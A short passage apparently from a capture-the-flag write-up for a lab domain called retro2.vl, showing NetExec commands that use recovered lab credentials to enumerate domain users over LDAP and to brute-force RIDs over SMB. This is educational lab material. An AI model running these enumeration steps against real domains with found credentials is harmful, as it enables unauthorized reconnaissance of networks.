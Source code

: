 We have valid credentials !!

So lets enumerate the users in the domain.

```bash
nxc ldap retro2.vl -u ldapreader -p ppYaVcB5R --users
```

![image.png](/assets/images/RetroTwo_VL/image%2011.png)

### RID Cycling Attack

We have valid credentials to the domain let us perform **RID Bruteforce** attack using NetExec.

```bash
nxc smb retro2.vl -u ldapreader -p ppYaVcB5R --rid-brute
```
